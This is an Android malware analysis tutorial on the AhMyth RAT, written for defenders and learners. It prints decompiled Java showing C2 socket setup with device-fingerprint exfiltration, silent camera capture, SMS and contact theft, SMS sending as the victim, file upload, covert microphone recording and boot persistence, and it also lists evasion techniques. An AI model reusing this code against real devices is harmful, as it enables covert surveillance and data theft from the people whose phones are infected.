## Android Malware Analysis

**The goal: Understand android APK malware analysis**

**Learning points:**
- Understand malware and analyze an Android RAT 
- Static and dynamic analysis using JADX, apktool and android emulator
- Learn how to reverse android apps
- Understand different types of android malware: RAT vs stalkerware
- Understanding the different android components in relation to malware abuse

### Ahmyth app

This is the aplication we will analyze: https://ahmyth.com/. AhMyth is an open source Remote Access Trojan(RAT) developed for the Android operating system. 

**Malware** is anything that does some action the end user has not consented to and they run in the background stealing user data remotely.

**Types of maware**

1. **Spyware/RAT** - Not legal and mostly distributed through sideloading. Different from stalkerware in that the phone's user does not consent to being stalked
2. **Stalkerware** - needs access to your unlocked phone and mostly installed by loved ones like parents, spouse, employee monitoring etc. E.g child monitoring software. The user consents to it being installed.
Stalkerware are marketed as legal apps. Both RATs and stalkerware have the same functionality but the difference is whether the user has consented to teh app being installed on their phone.
3. **Banking trojans** - overlays attacks are used to collect passwords or to intercept SMS to steal 2FA code
4. **Ransomware** - Its goal is extortion.
5. **Adware** - floods phone with adpopups which pikes data usage and drains phone battery.
6. **Dropper** - goal is to bypass google play security filters, once installed, it calls the remote code to download the malware that would have otherwise been flagged by Google Play.

**Stalkerware vs RAT**

| Feature | Remote Access Trojan (RAT) | Stalkerware |
| :--- | :--- | :--- |
| **Primary Actor** | Anonymous hackers, cybercriminals, or state-sponsored actors. | Someone close to the victim (spouse, ex, parent, or employer). |
| **Delivery Method** | Phishing emails, malicious downloads, cracked software, or unpatched vulnerabilities. | Physical access to the device (unlocked phone/PC) or via shared account credentials. |
| **Visibility** | Completely hidden. It goes to great lengths to evade antivirus detection. | Often hidden from the app drawer, but sometimes masked as "parental control" or "find my phone" apps. |
| **Primary Motive** | Financial gain, data theft, corporate espionage, or creating a botnet. | Interpersonal control, surveillance, jealousy, or tracking movement. |
| **Capabilities** | Full administrative control: executing commands, stealing files, logging keystrokes, using the webcam, and wiping the system. | Reading texts/chats (WhatsApp, SMS), tracking GPS location, viewing call logs, photos, and browser history. |
| **Commercial Legality** | Plainly illegal to create, distribute, or use. | Often sold legally online under the guise of "child monitoring" or "employee tracking" software. |

**Note**: Stalkerware sometimes leads to domestic violence.

## How Google Play detects Malware

### Google Play Protect (GPP) & App Fingerprints (Digital Signatures)

If you are dealing with app security, sideloading, or development, "fingerprint" refers to a cryptographic certificate fingerprint (like a SHA-256 hash).  

* **How GPP uses it:** Every app on the Play Store has a unique digital fingerprint signed by the developer (or Google). When Google Play Protect scans your device daily, it checks the fingerprint of your installed apps against its database.  
* **Why it matters:** If a hacker modifies a legitimate app to include a RAT or stalkerware and tries to trick you into installing it, the digital fingerprint will change. GPP will immediately flag it as an "Unknown App" or "Potentially Harmful Application" because the modified fingerprint doesn't match the official developer's signature.

## Why android is high stake for malware attacks

- We store everything on our phones thus high stake data
- People tend to give blind permissions
- Android allows sideloading
- Billions of unpatched applications in the playstore
- Playstore has been used to distribute malware

## Android App Compilation Process

1. **.java/.kt**- source code
2. **.class** - java bytecode
3. **.dex** - Dalvik bytecode
4. **.apk** - zip file source code + resources + native files
5. **On device** - android compiles ART to native code ARM or specific device architecture

Decompilation process is the reverse of the steps above. 

## APK Architecture

How to analyze APK contents and what to look for when reverse engineering, or malware hunting.

| File | Contents | What to Look For  |
| :--- | :--- | :--- |
| **`AndroidManifest.xml`** | The core configuration file. Defines app package name, components, hardware requirements, and permissions. Always analyzed first | * **Excessive Permissions:** Requests for `RECEIVE_BOOT_COMPLETED`, `READ_SMS`, `RECORD_AUDIO`, or `ACCESS_FINE_LOCATION` are common in stalkerware.<br><br>* **Hidden Components:** Unused background services or receivers set to start automatically at boot. |
| **`classes.dex`** | Compiled Java/Kotlin source code converted into Dalvik Executable (DEX) format. Large apps may have multiple (`classes2.dex`, `classes3.dex`). | * **Obfuscation:** Heavy use of random string names (e.g., `a.b.c.a()`) hiding code logic.<br><br>* **Hardcoded Strings:** API keys, URLs, command-and-control (C2) server IPs, or sensitive tokens.<br><br>* **Suspicious APIs:** Cryptographic functions, runtime command execution (`Runtime.getRuntime().exec()`), or dynamic class loading. |
| **`res/values/strings.xml`**| Contains the text strings used throughout the application's user interface, localized into various languages. | * **Hidden Text:** Error messages, hidden menu items, or UI strings related to tracking or stealth features.<br><br>* **C2 Indicators:** Text or labels that match known malware kits or framework configurations. |
| **`res/layout/*.xml`** | XML files that define the visual structure and user interface (UI) design for every screen in the app. | * **Invisible Overlays:** UI layouts designed to be drawn invisibly over other apps to hijack taps or steal credentials (overlay attacks).<br><br>* **Phishing Screens:** Spoofed login pages disguised as legitimate banks or social media sites. |
| **`assets/`** | A directory for raw asset files (HTML, fonts, audio, video, or config files) that the app can read as a byte stream. | * **Hidden Payloads:** Hidden secondary `.dex`, `.apk`, or `.jar` files designed to be extracted and dynamically executed at runtime to bypass Google Play Protect.<br><br>* **Encrypted Blobs:** Suspicious configuration files or embedded ZIPs. |
| **`lib/`** | Contains compiled native libraries written in C/C++, organized by CPU architecture (e.g., `armeabi-v7a`, `arm64-v8a`, `x86`). | * **Native Rootkits/Exploits:** Compiled C binaries used to exploit system vulnerabilities to gain root access.<br><br>* **Anti-Analysis Code:** Native code used to detect if the app is running in an emulator or sandbox, making dynamic analysis harder. |
| **`META-INF/`** | The cryptographic signature directory. Contains the code signatures (`CERT.RSA`, `CERT.SF`) and a manifest of hashes for every file in the APK (`MANIFEST.MF`). | * **Signature Discrepancies:** If an app was tampered with or modified (e.g., injecting a RAT into a real app), the original signature will be broken.<br><br>* **Developer Identity:** Information about who signed the app, which helps verify if it actually came from the trusted, official developer. |

> Stalkerware make the **minSdkVersion**(the lowest android version the app can run against) really low to maximize the number of android version that can install the app and makes the **targetSdkVersion**(the version of android the app gets tested against) high but also as sometimes low to evade modern Android security and permission restrictions (android pushes security updates with each new android version and targeting lower versions of android means unpatched security issues wont be flagged by the phone if it installs the stalkerware)

**Why keep the targetSdkVersion low?**

* **Bypassing Runtime Permissions:** In older Android versions, apps were granted permissions all at once during installation, rather than prompting the user with pop-ups at runtime (like asking for location or microphone access).
* **Background Restrictions:** Modern Android versions strictly block apps from secretly running tasks in the background or accessing the clipboard. Targeting an older SDK allows stalkerware to dodge these strict background execution limits.
* **Hiding the App Icon:** Older API levels made it much easier for an app to programmatically hide its own launcher icon from the app drawer, a signature move for stalkerware.

> <intent-filter> tag on a component means an app expects to respond to intents (communication from inside the app or from external applications)
> <uses-permissions> check for excessive permissions that go beyond the functionality of the app.


## Malware analysis: dangerous permissions

The following list is not exhaustive but a few examples of red flag permissions to look out for:

| Permission | Technical Mechanism | Malware Functionality|
| :--- | :--- | :--- |
| **Camera** | Invisible or background surface previews via `Camera2` / `CameraX` APIs. | Captures photos or streams live video secretly without launching a visible app window. |
| **`RECEIVE_SMS` / `READ_SMS`** | Registers a `BroadcastReceiver` for incoming texts and queries the `content://sms` content provider. | Intercepts inbound text messages, monitors communication, and steals 2-Factor Authentication (OTP) codes. |
| **`READ_CONTACTS` / `READ_CALL_LOG`**| Queries the device's shared SQLite database via system Content Providers. | Maps out the victim's social network, steals contact lists, and harvests timestamps of incoming/outgoing calls. |
| **`ACCESS_FINE_LOCATION`** | Polls the GPS hardware and network location providers in the background. | Enables real-time tracking, geofencing, and movement history logging (hallmark of stalkerware). |
| **`BIND_DEVICE_ADMIN`** | Requests legacy device administrator privileges via the DevicePolicyManager. | Prevents the user from uninstalling the app by disabling the "Uninstall" button until admin rights are manually revoked. |
| **`RECEIVE_BOOT_COMPLETED`** | Listens for the `android.intent.action.BOOT_COMPLETED` system broadcast. | Allows the malware to automatically launch its malicious background services the moment the device powers on. |

**How can the user know if they have been infected with a spyware / rat ?**

- Their battery draining faster
- Their phone overheating


## Tools used for this exercise

- **apktool** - decompilation (dalvik bytecode to smali). 
- **adb** - android debug bridge
- **jadx-gui** - decompilation (dalvik bytecode to Java .class code). 
- **Android Studio** - setup emulators used for dynamic analysis

## Decompiling the apk with apktool

Read the AndroidManifest.xml and apktool.yml to get an overview of the app



Apktool.yml



## Android App Components

- **Intents** - message that triggers actions between components and apps to facilitate comm e.g trigger uploads. Implicit intent - you descrribe the action and android matched the right app to handle your action. Explicit, you specify the exact app/component. Malware mostly uses the explicit intents to not  draw attention of the users. Broadcast intents are sent to all listening components. Broadcast intents
- **Activities** - Overlay attacks
> Exported false means only in app components can start the component. Exported=true means it can be started by any app - this is used in overlay attacks
- **Services** - run continously in the background
CAn be started as sticky or non-sticky and started silently in the background. Sticky means it is restarted automatically if it gets killed by android due to space constraints and non-sticky does not auto restart.
Can be foreground or background. Foreground service shows up as notifications on the appbar.
- **Broadcast Receiver** - listens to system broadcasts then do something, battery low etc. Broadcast receivers have a priority with 100 being the highest
- **Content Provider** - allows other permitted apps to access data e.g contact list, sms

- **Hardcoded secrets** - server addresses, API keys, passwords, config values. Can search for them in Jadx. Where to locate secrets; res/values/strings.xml, assets/(config files), Java source code, 
**Best practices**: Use env variables etc.


> Enabling accessibility is also a red flag setting in stalkerware app bevcause it 


##  STATIC ANALYSIS: Decompiling the apk with jadx

JADX converts the Dalvik bytecode (`classes.dex`) back into readable Java. I opened the APK in `jadx-gui` and started analyzing the `AndroidManifest.xml` file.

I noted that:
1. A lot of permissions that when paired together raised redflags for example:
    - RECORD_AUDIO + CAMERA together — silent surveillance of the physical environment
    - READ_SMS + RECEIVE_SMS + INTERNET — intercept messages and upload them
    - ACCESS_FINE_LOCATION + INTERNET — real-time location tracking to a remote server
    - RECEIVE_BOOT_COMPLETED + a Service — malware that survives every reboot
    - READ_CONTACTS + READ_CALL_LOG — building a full picture of who the victim knows
    - All of the above when used together gives the feeling of full stalkerware / RAT fingerprint

2. A broadcast receiver listen for the action boot `BOOT_COMPLETED` and there is also a service meaning the app will run background services as soon as the app is restarted.


What we are looking for in JADX:

- The **entry points** declared in the manifest (activities, services, receivers).
- A class that opens a **network connection** (this is usually the C2 client).
- A **command dispatcher** that maps strings/opcodes to actions.
- **Sensitive APIs**: `Camera`, `MediaRecorder`, `SmsManager`, `LocationManager`, `ContentResolver`.

---

## Static Analysis

I started by searching for common strings in the app such as: `socket, http, SMS, location, camera, record, password, server` and I found a hardcoded IP address in IOSocket:



Below is the dataflow of the app from the applicatioon tree on Jadx:

```
Boot / app launch
   └── MyReceiver (BroadcastReceiver)
         └── MainService (background Service)
               └── ConnectionManager.startAsync()
                     └── IOSocket  ── WebSocket ──▶  C2 server
                           └── "order" events ──▶ CameraManager
                                                  FileManager
                                                  SMSManager
                                                  ContactsManager
                                                  CallsManager
                                                  MicManager
                                                  LocManager
```

The code implements a classic modular spyware infrastructure. A central controller class handles communication with a Command and Control (C2) server and delegates tasks to specific system managers based on strings received over the WebSocket layer.

```
+-----------------------------------------------------------+
|                       C2 SERVER                            |
+-----------------------------------------------------------+
                              │ (WebSockets / Socket.IO)
                              ▼
+-----------------------------------------------------------+
|                   ConnectionManager                        |
|            (Heartbeat, Order Dispatcher)                   |
+-----------------------------------------------------------+
                              │
         ┌────────────────────┼────────────────────┐
         ▼                    ▼                     ▼
+-----------------+  +-----------------+  +-------------------+
|  CameraManager  |  |   FileManager   |  |  Data Aggregators |
|  (Stealth Cam)  |  | (File Stealer)  |  |  (SMS, GPS, Logs) |
+-----------------+  +-----------------+  +-------------------+
```

### 1. `IOSocket` — opening a channel to the C2 server

A **WebSocket** is a persistent, full-duplex TCP connection between a client and a server. Unlike HTTP, where the client must keep polling the server for new data, a WebSocket stays open so the server can push commands to the client at any time. That is exactly what a RAT operator does: the infected phone sits idle, holding the socket open, and the attacker fires commands down it whenever they like.

Here, the RAT uses `socket.io` over a raw IP and a non-standard port — both red flags.

```java
public class IOSocket {
    private static IOSocket ourInstance = new IOSocket();
    private Socket ioSocket;

    private IOSocket() {
        try {
            String deviceID = Settings.Secure.getString(
                MainService.getContextOfApplication().getContentResolver(),
                "android_id");

            C0005IO.Options opts = new C0005IO.Options();
            opts.reconnection = true;
            opts.reconnectionDelay = 5000L;
            opts.reconnectionDelayMax = 999999999L;

            // Hardcoded C2 server IP + port. The device fingerprint
            // (model, manufacturer, OS version, android_id) is leaked
            // in the very first connection query string.
            this.ioSocket = C0005IO.socket(
                "http://192.168.8.101:42474?model=" + Uri.encode(Build.MODEL)
                + "&manf=" + Build.MANUFACTURER
                + "&release=" + Build.VERSION.RELEASE
                + "&id=" + deviceID);
        } catch (URISyntaxException e) {
            e.printStackTrace();
        }
    }
}
```

What stands out:

- **Hardcoded C2 IP** (`192.168.8.101:42474`) — first IOC for defenders.
- **Aggressive reconnection** (`reconnectionDelayMax = 999999999L`) so the rat keeps reconnecting infinitely until a connection is established.
- **Device fingerprinting at handshake**: model, manufacturer, OS version, and `android_id` are exfiltrated before the operator even sends a command.


### 2. `ConnectionManager` — the command dispatcher

`ConnectionManager` is the brain of the whole C2 server. It registers two socket.io event handlers:

- `ping` → responds with `pong` which is the check to ensure the connection between the client and server is still alive.
- `order` → reads an `order` string from the payload and dispatches it to the right manager class.

```java
ioSocket.m3on("order", new Emitter.Listener() {
    public void call(Object... args) throws JSONException {
        JSONObject data = (JSONObject) args[0];
        String order = data.getString("order");
        Log.e("order", order);
        switch (order) {
            case "x0000ca":   // camera
                if (data.getString("extra").equals("camList")) ConnectionManager.x0000ca(-1);
                else if (data.getString("extra").equals("1")) ConnectionManager.x0000ca(1);
                else if (data.getString("extra").equals("0")) ConnectionManager.x0000ca(0);
                break;
            case "x0000fm":   // file manager
            case "x0000sm":   // sms
            case "x0000cl":   // call logs
            case "x0000cn":   // contacts
            case "x0000mc":   // microphone
            case "x0000lm":   // location
                // ...
        }
    }
});
```

The opcodes (`x0000ca`, `x0000fm`, `x0000sm`, …) are a **lightweight obfuscation** — they hide intent from a casual `grep` for words like `camera` or `sms`, but the switch-case lays the full capability set bare.

### 3. `CameraManager` — silent photo capture via `SurfaceTexture`

To use the camera on Android you must attach a preview surface otherwise the OS will refuse to take a picture without one. Normally that surface is a `SurfaceView` visible on the phone's screen. RATs sidestep this with `SurfaceTexture`, which is an **off-screen** GL texture and the camera happily streams frames into it, but the user sees nothing (No preview window, no notification, no LED guarantee)

```java
public void startUp(int cameraID) {
    Camera cameraOpen = Camera.open(cameraID);
    this.camera = cameraOpen;
    this.camera.setParameters(cameraOpen.getParameters());
    try {
        // Off-screen surface => the user never sees the preview.
        this.camera.setPreviewTexture(new SurfaceTexture(0));
        this.camera.startPreview();
    } catch (Exception e) { e.printStackTrace(); }

    this.camera.takePicture(null, null, new Camera.PictureCallback() {
        public void onPictureTaken(byte[] data, Camera camera) throws JSONException {
            CameraManager.this.releaseCamera();
            CameraManager.this.sendPhoto(data); // exfiltrating the photo to the C2 server
        }
    });
}

public void sendPhoto(byte[] data) throws JSONException {
    Bitmap bitmap = BitmapFactory.decodeByteArray(data, 0, data.length);
    ByteArrayOutputStream bos = new ByteArrayOutputStream();
    bitmap.compress(Bitmap.CompressFormat.JPEG, 20, bos); // 20% compress to make a smaller payload
    JSONObject object = new JSONObject();
    object.put("image", true);
    object.put("buffer", bos.toByteArray());
    IOSocket.getInstance().getIoSocket().emit("x0000ca", object);
}
```

`findCameraList()` also enumerates front/back cameras so the operator can pick which one to silently activate from the C2. On an emulator with no real camera hardware it returns `null`.

Why `SurfaceTexture` matters when triaging RATs:

- It is the classic *stealth-camera primitive* on Android.
- Seeing `setPreviewTexture(new SurfaceTexture(...))` next to `takePicture` is almost always malicious in apps that have no UI need for a camera.

### 4. `SMSManager` — reading the inbox and sending texts on behalf of the user

All users SMSs stored on Android phones are exposed through a **Content Provider** at `content://sms/inbox`. Any app with `READ_SMS` pêrmissions defined in the manifest and also with the permission explicitly granted by the user for higher android verions, can query it the same way you would query a database through the `ContentResolver` and a `Cursor`.

```java
public static JSONObject getSMSList() throws JSONException {
    JSONObject jSONObject = new JSONObject();
    JSONArray list = new JSONArray();
    Uri uriSMSURI = Uri.parse("content://sms/inbox");
    Cursor cur = MainService.getContextOfApplication()
        .getContentResolver()
        .query(uriSMSURI, null, null, null, null);
        // The app duplicated the SMS db to the app and stores then in a JSON array
    while (cur.moveToNext()) {
        JSONObject sms = new JSONObject();
        sms.put("phoneNo", cur.getString(cur.getColumnIndex("address")));
        sms.put("msg",     cur.getString(cur.getColumnIndexOrThrow("body")));
        list.put(sms);
    }
    jSONObject.put("smsList", list);
    return jSONObject;
}

// The attacketr can trigger this method to send an SMMs to anyone in the contactlist exfiltrated above
public static boolean sendSMS(String phoneNo, String msg) {
    try {
        SmsManager.getDefault().sendTextMessage(phoneNo, null, msg, null, null);
        return true;
    } catch (Exception ex) { return false; }
}
```

Why this is dangerous:

- The inbox often contains **2FA / OTP codes** for banks, email, and crypto wallets. The attacker can intercept these and steal from the user.
- `sendTextMessage` lets the operator **send SMS as the victim** which can be useful for spreading the malware to the victim's contacts, or even running premium-SMS fraud.

### 5. `ContactsManager` and `CallsManager` — stealing the victim's contacts

Contacts and call logs sit behind their own Content Providers (`ContactsContract` and `CallLog`). The ContentResolver pattern is identical to the one noted in SMS above: open a cursor, walk every row, copy into a JSON object, ship it to the C2.

```java
public class ContactsManager {
    public static JSONObject getContacts() throws JSONException {
        JSONObject jSONObject = new JSONObject();
        JSONArray list = new JSONArray();
        Cursor cur = MainService.getContextOfApplication()
            .getContentResolver()
            .query(ContactsContract.CommonDataKinds.Phone.CONTENT_URI,
                   new String[]{"display_name", "data1"},
                   null, null, "display_name ASC");
        while (cur.moveToNext()) {
            JSONObject contact = new JSONObject();
            contact.put("name",    cur.getString(cur.getColumnIndex("display_name")));
            contact.put("phoneNo", cur.getString(cur.getColumnIndex("data1")));
            list.put(contact);
        }
        jSONObject.put("contactsList", list);
        return jSONObject;
    }
}
```

**A few things worth noting**:

- The output is a near-perfect **clone of the victim's address book**, shipped over the WebSocket.
- Combined with SMS dumping and the `sendSMS` capability, the operator can impersonate the victim and send messages to their real contacts.

`CallsManager` follows the exact same template against the `CallLog` provider, exfiltrating numbers, names, durations, and call types.

### 6. `FileManager` — directory listing and file exfiltration

`walk()` returns a JSON listing of a directory (used to let the operator browse the device) and the `downloadFile()` method despite the name does the opposite where it reads a local file and uploads it to the C2.

```java
// Reads a LOCAL file and EMITs it over the socket to the C2.
// The misleading name is a small but real evasion trick: a casual
// reviewer grepping for "upload" will miss this.
public static void downloadFile(String path) {
    if (path == null) return;
    File file = new File(path);
    if (file.exists()) {
        int size = (int) file.length();
        byte[] data = new byte[size];
        try {
            BufferedInputStream buf = new BufferedInputStream(new FileInputStream(file));
            buf.read(data, 0, data.length);

            JSONObject object = new JSONObject();
            object.put("file", true);
            object.put("name", file.getName());
            object.put("buffer", data);
            IOSocket.getInstance().getIoSocket().emit("x0000fm", object);
            buf.close();
        } catch (IOException | JSONException e) { e.printStackTrace(); }
    }
}
```

Deceptive naming (`downloadFile` for an upload is an **evasion technique**. It slows down humans skimming decompiled code as they try to understand the functionality of teh code and can be missed for seeming legitimate.

### 7. `LocManager` — tracking with a fallback strategy

`LocManager` class checks for the users current location using two methods. It first checks if either *GPS location* or *network location* access is available on the device. If both are available, network location gets preceedence of being called because it is faster compared GPS location data. However, the later is more accurate than the former.

```java
if (this.isGPSEnabled || this.isNetworkEnabled) {
    this.canGetLocation = true;
    if (this.isNetworkEnabled) {
        this.locationManager.requestLocationUpdates("network", MIN_TIME_BW_UPDATES, 10.0f, this);
        this.location = locationManager.getLastKnownLocation("network");
        // ...
    }
    if (this.isGPSEnabled && this.location == null) {
        this.locationManager.requestLocationUpdates("gps", MIN_TIME_BW_UPDATES, 10.0f, this);
        this.location = locationManager.getLastKnownLocation("gps");
        // ...
    }
}
```

Why this ordering is dangerous:

- **Network location is faster and lower-power** — the device can return a fix from cell towers and Wi-Fi in milliseconds, without spinning up the GPS radio.
- It is also **less visible**: the GPS icon often does not appear in the status bar for network-only fixes, and the device draws no extra battery, so the victim has no visible cue.
- GPS is only used as a fallback when network location is unavailable — the operator gets a fix one way or the other.

The result (`lat`, `lng`) is wrapped in JSON and emitted to the C2 server.

### 8. `MicManager` — recording audio, storing them in a temp file and deleting them after exfiltration

In this class, I noted that the app records audiofiles to a temporary file using `File.createTempFile("sound", ".mp3", dir)` that is stored in the app's internal storage using `getCacheDir()`. This means the users can never see this files unless they are using a rooted phone and Android can wipe it under storage pressure - both convenient for the attacker. I also noted that there is an **`audiofile.delete()`** after `sendVoice(...)` is called which is an **anti-forensics** tactic. Leaving no recording on disk makes after RAT discovery triage harder.


```java
public static void startRecording(int sec) throws Exception {
    File dir = MainService.getContextOfApplication().getCacheDir();
    audiofile = File.createTempFile("sound", ".mp3", dir);

    recorder = new MediaRecorder();
    recorder.setAudioSource(MediaRecorder.AudioSource.MIC); // = 1
    recorder.setOutputFormat(2);   // THREE_GPP
    recorder.setAudioEncoder(3);   // AAC
    recorder.setOutputFile(audiofile.getAbsolutePath());
    recorder.prepare();
    recorder.start();

    new Timer().schedule(new TimerTask() {
        public void run() throws Exception {
            recorder.stop();
            recorder.release();
            sendVoice(audiofile);
            audiofile.delete();   // wipe the local artifact after exfil
        }
    }, sec * 1000);
}
```

### 9. `MyReceiver` — boot persistence

```java
public class MyReceiver extends BroadcastReceiver {
    @Override
    public void onReceive(Context context, Intent intent) {
        // Registered in the manifest for android.intent.action.BOOT_COMPLETED.
        // Every reboot re-launches the background service => persistence.
        context.startService(new Intent(context, MainService.class));
    }
}
```

This 4-line class is what makes the app **survive a reboot**. The manifest registers `MyReceiver` for the `BOOT_COMPLETED` broadcast, so the OS itself starts the RAT for the attacker every time the phone powers on. This is why `RECEIVE_BOOT_COMPLETED` is such a high-value permission to flag during manifest review.

---

## Static Indicators of Compromise found

| Indicator | Evidence |
| :--- | :--- |
| **Hardcoded C2 server IP** | `http://192.168.8.101:42474` in `IOSocket` |
| **Persistent socket with infinite reconnect** | `reconnectionDelayMax = 999999999L` |
| **Device fingerprint exfil at handshake** | `model`, `manf`, `release`, `android_id` in the connect URL |
| **Boot persistence on device restart** | `MyReceiver` + `RECEIVE_BOOT_COMPLETED` |
| **Silent camera capture** | `setPreviewTexture(new SurfaceTexture(0))` + `takePicture` |
| **SMS read + send** | `content://sms/inbox` query + `SmsManager.sendTextMessage` |
| **Contacts / call log dump** | `ContactsContract` + `CallLog` queries |
| **Filesystem exfil disguised as "download"** | `FileManager.downloadFile` emits file bytes over the socket |
| **Silent mic recording + cleanup** | `MediaRecorder` → cache dir → `delete()` |
| **Background tracking** | Network-first, GPS-fallback location |

---

## Evasion Techniques Observed In This Sample

These are the evasion behaviors we actually saw while reading Ahmyth's decompiled code:

1. **Opcode-style command names** (`x0000ca`, `x0000fm`, …) instead of human-readable strings. Defeats naive `grep` and casual code review.
2. **Misleading method names** — `downloadFile` is an _upload_; `MyReceiver` hides a boot-persistence hook.
3. **Off-screen camera preview** with `SurfaceTexture` so the user never sees the preview surface.
4. **Recording to the app-private cache directory** and **deleting the file immediately after exfil** (anti-forensics).
5. **Background `Service` started by a `BroadcastReceiver`** so there is no app icon / no foreground UI to give away activity.
6. **Network-first location** to avoid the GPS status-bar icon and battery hit.
7. **Plain `http://` socket** — counter-intuitively, _not_ using TLS can be its own evasion in environments where TLS-MITM tools and inspection proxies would otherwise flag the cert.

---

## Additional Evasion Techniques Used By Real-World Malware

Ahmyth is on the simple end of the RAT spectrum. In real-world samples you should also expect to see:

- **Dynamic code loading** — the APK ships a stub, then pulls down a secondary `.dex`, `.jar`, or `.apk` at runtime via `DexClassLoader` / `PathClassLoader` and executes code that was never in the original Play Store binary. This is the dropper pattern.
- **Reflection** — sensitive APIs (`Class.forName("android.telephony.SmsManager").getMethod("sendTextMessage", ...)`) instead of direct calls, so the strings `SmsManager` or `sendTextMessage` never appear in the DEX. Combined with string encryption, this hides almost the entire capability surface from static analysis.
- **String obfuscation / encryption** — class names, URLs, and method names stored as XOR-encrypted blobs and decrypted at runtime.
- **Identifier obfuscation (ProGuard/R8/DexGuard)** — every class, method, and field renamed to `a.b.c`, plus control-flow flattening to make decompiled output unreadable.
- **Multi-DEX and DEX hiding** — splitting the malicious code across `classes2.dex`, `classes3.dex`, or hiding a payload `.dex` inside `assets/` as an "image" or encrypted blob, then loading it at runtime.
- **Packers** — the real code lives encrypted inside a native `.so` library, decrypted in memory at startup. The Java side is just a thin loader.
- **Anti-emulator / anti-analysis checks** — checking `Build.FINGERPRINT` for "generic", looking for `qemu` props, checking the presence of telephony/IMEI, sensor counts, or `/proc/cpuinfo`. If the app detects an emulator or sandbox, it stays dormant.
- **Anti-debug / anti-hook checks** — looking for Frida / Xposed (`frida-server`, `re.frida.server`, `/system/lib/libfrida-gadget.so`), `TracerPid` in `/proc/self/status`, or hooking the `Debug.isDebuggerConnected()` API.
- **Logic bombs / time bombs** — payload only fires after N days, after a specific date, after the user opens a target banking app (overlay attacks), or only outside a given country/locale. Helps the sample survive sandboxes which only run it for seconds.
